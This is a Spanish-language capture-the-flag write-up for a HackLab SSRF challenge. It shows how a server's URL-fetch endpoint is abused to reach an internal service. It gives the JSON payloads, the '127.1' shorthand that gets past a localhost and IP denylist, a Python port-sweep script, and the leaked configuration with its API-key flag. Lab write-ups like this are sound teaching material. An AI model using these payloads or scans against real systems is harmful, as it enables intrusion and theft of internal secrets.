








# Desafío 38 - Cotizaciones Dólar

**Plataforma:** HackLab (SoftwareSeguro)  
**Categoría:** SSRF  

## Análisis

La aplicación muestra cotizaciones del dólar obtenidas desde "varias fuentes". Existe un servicio en la ruta `/config/security` que, según el enunciado, solo es accesible desde `localhost`. Además, la aplicación interna escucha en un puerto desconocido dentro del rango 4000–6000.



Explorando el frontend se identifica el endpoint `POST /check-stock`, que recibe una URL en el cuerpo y devuelve la respuesta de esa URL (body, headers y status):

```json
{"url":"https://dolarapi.com/v1/dolares/oficial"}
```

Respuesta:

```json
{
  "data": "{\n  \"moneda\": \"USD\",\n  \"casa\": \"oficial\",\n  \"nombre\": \"Oficial\",\n  \"compra\": 1490,\n  \"venta\": 1540,\n  \"fechaActualizacion\": \"2026-09-24T18:00:00.000Z\"\n}",
  "headers": { "...": "..." },
  "status": 200
}
```

Acá está la clave del desafío. El campo `url` lo controla el cliente, pero **quien hace la petición HTTP es el servidor**, no el navegador. Es decir, el servidor actúa como proxy: le pasamos una URL y él la consulta por nosotros y nos devuelve el resultado en `data`. Esto es un **SSRF (Server-Side Request Forgery)**: podemos forzar al servidor a pedir recursos internos a los que nosotros no llegamos directamente.

Además, como la respuesta remota vuelve completa dentro de `data`, es un **SSRF con respuesta reflejada** (no ciego): cualquier cosa que el servidor lea internamente, la vamos a poder leer nosotros.

El objetivo (`/config/security`) da 404 si lo pedimos directo desde afuera, porque solo responde a peticiones originadas en `localhost`. Pero `/check-stock` se ejecuta **dentro del servidor**, así que si logramos que el SSRF apunte a `localhost`, la petición nacerá desde la propia máquina y superará esa restricción de origen.

## Explotación

### Primer intento: apuntar a `localhost`

Lo más directo es pedirle al servidor que se consulte a sí mismo por nombre. Como no sabemos el puerto, empezamos probando el 4000 (inicio del rango indicado):

```json
{"url": "http://localhost:4000/config/security"}
```



```json
{"error": "Error: El dominio localhost no está permitido"}
```



La respuesta no es un error de red ni un 404: es un **error de validación**. El servidor inspecciona la URL *antes* de hacer la petición y bloquea explícitamente la cadena `localhost`. O sea, hay una defensa anti-SSRF basada en una denylist de nombres. Sabemos entonces que la palabra `localhost` está prohibida, pero eso no significa que loopback esté cerrado: solo que ese nombre en particular está filtrado.

### Segundo intento: la IP loopback directa

Si el nombre `localhost` está prohibido, lo natural es apuntar a la misma máquina por su IP de loopback, `127.0.0.1`:

```json
{"url": "http://127.0.0.1:4000/config/security"}
```



```json
{"error": "Error: No se permiten direcciones IP directas"}
```



De nuevo un error de validación, pero con un mensaje distinto. Esto nos dice que el filtro tiene **dos reglas separadas**: una que bloquea el nombre `localhost`, y otra que bloquea cualquier cosa con forma de IP en notación *dotted-quad* (los cuatro octetos completos, `\d+\.\d+\.\d+\.\d+`). Que el mensaje cambie confirma que estamos ante una validación por patrones de texto sobre la URL, no ante un bloqueo de red real.

Ese es justamente el punto débil: un filtro que decide por cómo *se escribe* la URL, en vez de resolver a qué dirección apunta realmente, se puede engañar con una representación equivalente de la misma IP.

### Bypass: `127.1`

`127.1` es una forma abreviada y válida de `127.0.0.1`. Cuando falta algún octeto, el sistema operativo la expande: `127.1` se interpreta como `127.0.0.1`. Para nosotros el truco es doble:

- **No contiene** la cadena `localhost` → esquiva la primera regla.
- **No tiene** cuatro octetos, así que no coincide con el patrón dotted-quad → esquiva la segunda regla.

Pero cuando el servidor efectivamente se conecta, el SO la resuelve a loopback igual. Es el clásico desfase entre *cómo valida el filtro* y *cómo conecta el sistema*.

```json
{"url": "http://127.1:4000/config/security"}
```



```json
{"error": "Error: No se pudo conectar con la URL especificada"}
```



Este error es una **buena noticia**, aunque parezca un fallo. El mensaje ya **no es de validación** sino **de conexión**: significa que `127.1` pasó los dos filtros y el servidor realmente *intentó* conectarse a loopback. Falló solo porque en el puerto 4000 no había ningún servicio escuchando. El bypass funciona; solo falta encontrar el puerto correcto dentro del rango 4000–6000.

### Barrido de puertos

Probar 2000 puertos a mano es inviable, así que se automatiza. La lógica para distinguir un puerto vivo de uno cerrado es justamente la diferencia de mensajes que descubrimos: un puerto **cerrado** devuelve `"No se pudo conectar con la URL especificada"`, mientras que un puerto **vivo** devuelve el contenido real en `data` (o cualquier otra respuesta distinta a ese error de conexión).

```python
# Sweep the internal port range 4000-6000 through the SSRF vector using 127.1 as bypass
import requests

BASE = "https://<host>/check-stock"

def check(url):
    try:
        return requests.post(BASE, json={"url": url}, timeout=6).json()
    except Exception as e:
        return {"_exc": str(e)}

for port in range(4000, 6001):
    res = check(f"http://127.1:{port}/config/security")
    if "No se pudo conectar" in res.get("error", ""):
        continue
    print(f"[+] puerto {port}: {str(res)[:400]}")
```

Qué hace el script, paso a paso:

- **`check(url)`** manda el `POST /check-stock` con el `{"url": ...}` y devuelve la respuesta ya parseada como JSON. El `try/except` evita que un timeout o un error de red corten el barrido.
- **El bucle** recorre todos los puertos del rango 4000–6000 y, para cada uno, arma la URL de SSRF `http://127.1:<puerto>/config/security` usando el bypass ya validado.
- **El filtro `if "No se pudo conectar"...: continue`** descarta en silencio todos los puertos cerrados (que son la enorme mayoría), de modo que solo se imprimen los puertos que respondieron algo útil.
- **El `print`** muestra el puerto y un recorte de su respuesta, para identificar de inmediato dónde vive el servicio.

El script completo está en [`solve.py`](./solve.py). El barrido devuelve dos puertos activos:



- **Puerto 5000**: una app Flask/Werkzeug, pero `/config/security` da 404 (es el servicio "público" interno; su propia config lo referencia en `allowed_origins`).
- **Puerto 5001**: el servicio "seguro". `/config/security` responde con la configuración del sistema:

```json
{
  "allowed_origins": ["http://localhost:5000"],
  "api_key": "bff48bf153224fbfdb8f6cc898cd7bb1",
  "enable_2fa": false,
  "encryption_method": "AES-256",
  "jwt_algorithm": "HS256",
  "password_min_length": 8,
  "session_timeout": 3600
}
```

La `api_key` filtrada es la flag.

## Flag

```
bff48bf153224fbfdb8f6cc898cd7bb1
```
